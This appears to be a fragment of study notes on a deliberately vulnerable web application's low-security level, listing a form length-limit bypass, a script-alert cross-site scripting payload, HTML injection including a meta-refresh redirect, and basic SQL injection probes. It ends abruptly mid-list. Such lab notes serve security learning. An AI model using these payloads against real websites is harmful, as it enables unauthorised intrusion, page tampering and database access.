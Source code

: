 	- 'Name' input can be changed from 10 to 100 input characters in order to bypass security

	$ <SCRIPT>alert('alert')</script>


## HTML injection

Like XSS but injecting HTML code in the Reflected XSS section

HTML injection can modify HTML code of page at liking

	$ <h1>Test</h1>

	<meta http-equiv="refresh" content=0; url=http://google.com" />


## SQL injection

-- Low security

	$ 2' and '1'='1

	$ 2' order by 1 --'

	9.30